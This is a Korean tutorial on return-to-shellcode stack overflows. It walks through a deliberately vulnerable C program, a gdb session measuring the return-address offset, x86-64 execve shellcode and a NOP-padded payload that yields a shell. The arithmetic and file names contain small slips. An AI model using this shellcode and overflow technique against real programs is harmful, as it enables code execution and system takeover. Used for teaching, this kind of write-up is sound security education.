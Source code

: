 # Return to Shellcode

---

### # What is it??

Return to Shellcode는 Return address 값을 shellcode가 저장된 주소로 변경해, shellcode를 호출하는 방식이다.

Return address 값은 보통 어셈블리어에서 CALL 또는 RET 명령어를 호출 후 스택에 저장이 된다.

----

### # CALL & RET

CALL 명령어는 다음과 같은 행위가 이루어진다.

|  명령어 |  동작  |
| ------------ | ------------ |
|  CALL |  PUSH ReturnAddress <br> JMP <Operation>|

CALL 명령어는 CALL 명령어 다음 명령어의 주소 값을 stack에 저장하고 피연산자 주소로 이동한다.

현재 ESP가 다음 명령어로 이동할 주소 값을 가르키고 있고, 이때 RET 명령어는 POP 명령어로 EIP에 저장하고 해당 주소로 이동한다.

|  명령어 |  동작  |
| ------------ | ------------ |
|  RET |  POP EIP <br> JMP EIP|

---

### # Preview

예제를 통해 실습을 해보자

아래 코드는 실습에 사용될 코드이다.

```c
#include <stdio.h>
#include <unistd.h>
 
void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    read(0, buf, 100);
}
 
void main(){
    vuln();
}
```

우선 위 코드를 보고 스택 구조를 그려보자.

- 11 -> 4 : main()함수에서 vuln() 함수를 호출한다. 스택에는 main() 함수에서 vuln() 함수 호출 후 주소를 저장한다.



```
low address

========================
main() 함수(12번째 줄)로 돌아갈 주소
========================

high address
```

- 4 : 함수의 프롤로그가 시작된다.

PUSH EBP

MOV EBP ESP

```
low address

========================
main() 함수의 EBP
========================
main() 함수(12번째 줄)로 돌아갈 주소
========================

high address
```

- 5 : buf 변수의 공간(50bytes)이 할당된다.

```
low address

========================
buf 공간
========================
main() 함수의 EBP
========================
main() 함수(12번째 줄)로 돌아갈 주소
========================

high address
```

- 7 : buf 변수에 100bytes 까지 값을 저장할 수 있게 read 함수를 쓴다. 이때 50bytes 이상 값을 쓰면 buf 공간 아래에 있는 공간에 침범 할 수 있게 된다.

- 8 : 함수의 종료가 일어난다.

POP EBP

```
low address

========================
main() 함수(12번째 줄)로 돌아갈 주소
========================

high address
```

RET (POP EIP & JMP EIP)

```
low address

========================
========================

high address
```
---

### # Proof of concept 

위 코드를 gcc 명령어로 아래와 같은 옵션을 추가하여 컴파일 하자.

```bash
gcc -z execstack -fno-stack-protector -o poc poc.c
```

우선 vuln 함수의 시작부분과 read 함수가 호출되는 주소에 breakpoint 를 걸어준다.

```bash
>>> disas vuln
Dump of assembler code for function vuln:
   0x000055555555468a <+0>:     push   rbp
   0x000055555555468b <+1>:     mov    rbp,rsp
   0x000055555555468e <+4>:     sub    rsp,0x40
   0x0000555555554692 <+8>:     lea    rax,[rbp-0x40]
   0x0000555555554696 <+12>:    mov    rsi,rax
   0x0000555555554699 <+15>:    lea    rdi,[rip+0xc4]
   0x00005555555546a0 <+22>:    mov    eax,0x0
   0x00005555555546a5 <+27>:    call   0x555555554550 <printf@plt>
   0x00005555555546aa <+32>:    lea    rax,[rbp-0x40]
   0x00005555555546ae <+36>:    mov    edx,0x64
   0x00005555555546b3 <+41>:    mov    rsi,rax
   0x00005555555546b6 <+44>:    mov    edi,0x0
   0x00005555555546bb <+49>:    call   0x555555554560 <read@plt>
   0x00005555555546c0 <+54>:    nop
   0x00005555555546c1 <+55>:    leave  
   0x00005555555546c2 <+56>:    ret    
End of assembler dump.

>>> b *vuln
>>> b *0x00005555555546bb
```

프로그램을 실행하면 vuln 함수의 프롤로그가 시작하기 전에 프로그램이 멈춘다.
이때 RSP(ESP) 값을 보자. 

```bash
Breakpoint 1, 0x000055555555468a in vuln ()
>>> i r rsp
rsp            0x7fffffffe4a8   0x7fffffffe4a8
>>> x/gx 0x7fffffffe4a8
0x7fffffffe4a8: 0x00005555555546d1
>>> disas main
Dump of assembler code for function main:
   0x00005555555546c3 <+0>:     push   rbp
   0x00005555555546c4 <+1>:     mov    rbp,rsp
   0x00005555555546c7 <+4>:     mov    eax,0x0
   0x00005555555546cc <+9>:     call   0x55555555468a <vuln>
   0x00005555555546d1 <+14>:    nop
   0x00005555555546d2 <+15>:    pop    rbp
   0x00005555555546d3 <+16>:    ret    
End of assembler dump.
>>> 
```

i r rsp 명령어를 통해 RSP 값은 0x0x7fffffffe4a8 이다.

RSP 주소에 저장된 값은 x/gx 0x7fffffffe4a8로 확인하면 0x00005555555546d1 이다. 이 값은 main() 함수에서 CALL 명령어 다음에 실행될 주소이다. 즉 Return address 이다.

c 명령어로 계속 진행한다.

```
>>> c
buf[50] address : 0x7fffffffe460
Breakpoint 2, 0x00005555555546bb in vuln ()
>>> 
```

buf의 주소가 출력되었다. 여기서 그렇다면 main() 함수로 돌아갈 Return address와 buf는 72bytes (0x7fffffffe4a8 - 0x7fffffffe460 = 48) 만큼 떨어져 있다. 

즉 72bytes 의 내용을 shell code로 집어놓고 Return address로 침범하기 위해 shell code의 주소 (8bytes)를 추가로 작성하면 (총 80bytes) vuln() 함수가 끝나고 RET 명령어를 실행할때 shell code가 POP 되어 EIP에 저장되고 이 주소(shell code가 저장된 주소)로 이동하여 shell 이 실행되게 된다.

아래 shell code는 64bit에서 동작하는 27bytes 코드이다.

```
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

그 다음 NOP 값을 (72 - 27) 45bytes 만큼 넣어준 다음 buf 주소를 적어 준다.

```
"\x90" * 45 + "\x60\xe4\xff\xff\xff\x7f\x00\x00"
```

최종적으로 위 payload를 합친 뒤 프로그램에 값을 입력하면 shell을 획득 할 수 있다.

```
$ (python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x90"*45 + "\x60\xe4\xff\xff\xff\x7f\x00\x00"'; cat ) | ./test                                                                                                                                                                                   
buf[50] address : 0x7fffffffe460

ls
test test.c
```

### # Reference
[https://www.lazenca.net/display/TEC/02.Return+to+Shellcode](https://www.lazenca.net/display/TEC/02.Return+to+Shellcode)
